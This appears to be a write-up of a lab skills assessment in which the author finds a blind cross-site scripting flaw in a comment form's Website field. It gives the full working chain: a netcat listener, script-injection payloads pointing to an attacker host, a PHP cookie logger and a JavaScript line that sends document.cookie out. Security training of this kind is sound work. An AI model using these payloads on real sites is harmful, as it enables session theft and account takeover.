





## Cross-Site Scripting (XSS) - Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Cross-Site Scripting (XSS) vulnerabilities within the `/assessment` directory of the target application, and to extract sensitive information by leveraging the discovered weakness.


### Reconnaissance

Upon accessing the `/assessment` directory, I was presented with a page that included a **comment submission form**.  

The form contained the following input fields:
- **Comment**
- **Name**
- **Email**
- **Website**

Additionally, there was an option to save user details for later use.




### Initial Testing

I first submitted a benign comment to observe the behavior of the form. The application responded with:



This indicated that while the input was accepted, it would not be displayed to us directly. Instead, the submitted content was likely stored and later rendered on an **administrator-only page**.  

As a result, any XSS payloads would not execute in our own session, but could potentially trigger when viewed by a privileged user (e.g., a moderator).  

Based on this behavior, I focused on testing **Blind XSS**.


### Blind XSS Discovery

Next, I attempted a **Blind XSS attack** by setting up a listener:

```bash
sudo nc -lvnp 80 -s <attacker_ip>
```

I injected payloads using the template `test<script src="http://<attacker_ip>/<field_name>"></script>` into multiple form fields:



The listener confirmed that the **Website** field was vulnerable when the application attempted to load the external resource:




### Exploitation

To exfiltrate cookies from the vulnerable application, I created the following files on my server:

```index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```script.js
new Image().src='http://<attacker_ip>/index.php?c='+document.cookie;
```

I then hosted these files using PHP’s built-in server, as Netcat was unable to correctly process the incoming HTTP requests:

```bash
sudo php -S <attacker_ip>:80
```

Finally, I injected the following payload into the Website field to trigger the exploit:

```
test<script src="http://<attacker_ip>/script.js"></script>
```


### Results

The victim browser executed my payload, requested `script.js`, and subsequently sent the cookies to `index.php`, which saved them to `cookies.txt`:




## Conclusion

The Website field of the comment submission form was vulnerable to Blind XSS. By leveraging this issue, I successfully executed arbitrary JavaScript on the victim browser and exfiltrated session cookies, including the assessment flag.

This confirms the presence of a critical XSS vulnerability that could allow attackers to steal sensitive user data and compromise accounts.


### Key Takeaways

- No visible execution occurred for Stored, Reflected, or DOM-based XSS payloads  
- Blind XSS successfully triggered via the **Website** field  
- External script execution enabled cookie exfiltration  
- Captured session data revealed the assessment flag


